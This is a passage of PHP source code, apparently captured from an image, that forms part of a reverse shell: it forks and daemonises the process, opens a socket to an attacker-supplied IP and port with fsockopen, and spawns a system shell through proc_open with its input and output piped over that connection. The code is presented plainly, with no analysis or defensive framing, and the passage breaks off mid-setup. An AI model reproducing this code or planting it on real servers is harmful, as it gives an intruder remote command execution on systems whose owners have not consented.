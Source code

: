 ```
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
```